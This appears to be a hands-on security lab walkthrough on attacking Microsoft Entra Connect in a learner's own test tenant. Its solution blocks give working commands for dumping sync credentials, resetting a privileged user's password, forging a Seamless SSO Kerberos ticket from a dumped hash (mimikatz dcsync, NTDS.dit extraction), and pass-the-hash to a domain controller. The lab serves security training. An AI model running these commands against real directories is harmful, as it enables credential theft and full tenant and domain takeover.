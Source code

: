 # Lab 2 - Entra Connect Attacks
### Preparations
#### Prepare a victim user with high privileges:
in [Entra porta](https://entra.microsoft.com/#view/Microsoft_AAD_UsersAndTenants/UserManagementMenuBlade/~/AllUsers/menuId/) (login with your admin tenant creds), select ***user1*** and assign it with the **Active** (not *Eligible*) **Application Administrator** role



# Instructions
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Entra Connect server (in our case- it's the DC VM), and you know the Entra tenant domain.

Don't go so fast for the solution.. **try first!**

# Start 

### 1. Reconnaissance
Using AADInternals, do a bit of recon to find out the the tenant ID, and if the tenant has Seamless SSO turned on..

Hint: use https://aadinternals.com/aadinternals

<details>
<summary><b>Solution</b></summary>

```powershell
Import-Module AADInternals
Invoke-AADIntReconAsOutsider -DomainName YOURDOMAIN.onmicrosoft.com
```
</details>


### 2. Dumping and Extracting Entra Connect credentials:
Now that you've got basic info, get the credentials of the Sync and MSOL accounts.

<details>
<summary><b>Solution</b></summary>

Execute in powershell:

```powershell
Get-AADIntSyncCredentials
```
keep the creds aside :)
</details>

### 3. Finding a target (victim) user to attack
So far you've obtained:
1. Tenant ID + domain
2. Sync_xx account credentials

In order to move laterally to the cloud, we should find a synced user that we can take over...


<details>
<summary><b>Hint 1</b></summary>

See which users are Active Directory users that are synced to the cloud...
</details>

<details>
<summary><b>Hint 2</b></summary>

Go the easier way:
* Use AzureAD Powershell module (https://learn.microsoft.com/en-us/powershell/module/azuread/?view=azureadps-2.0)

Go the advanced way (and learn how to use access tokens):
1. Use AADInternals to get an access token for AAD Graph
2. Use AzureAD Powershell module and connect using this token (https://learn.microsoft.com/en-us/powershell/module/azuread/?view=azureadps-2.0)


</details>

<details>
<summary><b>Hint 3</b></summary>

Advanced way commands:
1. ```Get-AADIntAccessTokenForAADGraph```
1. ```Connect-AzureAD -AccountId $SyncUserUPN -TenantId $tenantId -AadAccessToken $at```

if you went the easy way - figure it out yourself.
</details>

<details>
<summary><b>Hint 4</b></summary>

Using AzureAD Powershell module, list the users, and try to see which one has a powerful role..
</details>


<details>
<summary><b>Solution</b></summary>

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph

# method 1: 
$userUPN = "Sync_xxx@YOURDOMAIN.onmicrosoft.com" # change the username
Connect-AzureAD -AccountId $userUPN -TenantId $tenantId -AadAccessToken $at

# method 2:
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id,
```

Enumerate users:
```powershell
# this is just a fancy, oneliner script to list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```

Did you find it? should be ```user1```.
</details>


### 4. Reset Password Attack
#### Reset the victim user's Entra password

<details>
<summary><b>Hint 1</b></summary>

Using AADInternals, reset that user's password and then login on its behalf.
</details>

<details>
<summary><b>Hint 2</b></summary>

Use Set-AADIntUserPassword command
</details>

<details>
<summary><b>Solution</b></summary>

```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```
Now, open https://entra.microsoft.com in the browser **in incognito** and login as that user *VICTIM_USER@YOURDOMAIN.onmicrosoft.com* with the new password :)


*This method does not bypass MFA
</details>


#
### 5. Silver Ticket (Seamless SSO) Attack

Set the domain:
```powershell
$domain = "MYDOMAIN" # change to your domain name WITHOUT the ".onmicrosoft.com" part 
```

#### 1. Get AZUREADSSOACC computer account's hash:
```powershell
# Option 1: Get-ADReplAccount
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain $domain -Server dcvm # take the "NTHash" part

# Option 2: mimikatz
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$"
    
# Option 3: Dump NTDS.dit and registry:
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q # Now the AD and registry are dumped to C:\temp and we can extract the password hash using DSInternals.
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hex # Get the password's hash of AZUREADSSOACC
# remote the empty spaces and keep the hash
```

Set the hash:
```powershell
$hash = "CHANGEME"
```
#### 2. Find victim user to impersonate

```powershell
# Option 1: query Entra + get roles
Import-Module AzureAD
Connect-AzureAD # use the dumped Entra Connect creds (Sync_XXX account)


# Option 2: query AD (w/o getting Entra roles)
Get-ADReplAccount -SamAccountName 'VICTIM_USER' -Domain $domain -Server dcvm # take the "Sid:" part
```

Set the victim user's SID:
```powershell
$victimUserSid = "S-1-5-21-CHANGEME" # set the sid of the user you wish to impersonate
```

#### 3. Perform the attack
```powershell
# generate kerberos ticket
$kerberos=New-AADIntKerberosTicket -SidString $victimUserSid -Hash $hash

# get an access token for that user
$at = Get-AADIntAccessTokenForMSGraph -KerberosTicket $kerberos -Domain $domain".onmicrosoft.com"
# if you get AADSTS50079 error, it might mean you have a conditional access policy in your Entra tenant named "Security info registration for Microsoft partners and vendors" that blocks this login, you need to reinstall the entire lab from scratch and associate it yo your new tenant

# start exploring what you can do in the tenant using MS Graph API!
$MaximumFunctionCount = 8192 # bypass powershell's scope memory limit
Import-Module Microsoft.Graph.Users
$securedAT = ConvertTo-SecureString $at -AsPlainText -Force
Connect-MgGraph -AccessToken $securedAT

Get-MgContext

Get-MgUser
#SDK Docs: https://aka.ms/graph/sdk/powershell/docs
```
if you took the easy way earlier, take the hard one now!


#
### 6. Pass The Hash using Entra Connect's MSOL Account Attack

Your goal: using the MSOL account creds, perform pass the hash attack, and open cmd.exe on DC VM, using another domain admin user (that is *not* ``user1``). Do it from **Win 11 VM**.

* Use ``c:\lab\mimikatz`` and [impacket-psexec](https://github.com/ropnop/impacket_static_binaries/releases/download/0.9.22.dev-binaries/psexec_windows.exe)

<details>
<summary><b>Solution</b></summary>

```powershell

# find a domain admin user to target
Get-ADGroupMember 'domain admins' | select name,samaccountname

# login in the context of MSOL account
runas /user:YOUDOMAIN\MSOL_xxxxxx cmd.exe

# dump rootuser's hash
C:\lab\mimikatz\x64\mimikatz.exe "lsadump::dcsync /user:rootuser"

# from a new cmd:

.\psexec_windows.exe -hashes aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH> YOUDOMAIN/rootuser@10.0.0.10 cmd

ipconfig # see the IP is of DC VM

```
</details>


#
###  Good Job! Summarize yourself the attack paths you just took and the attacks you've learned!
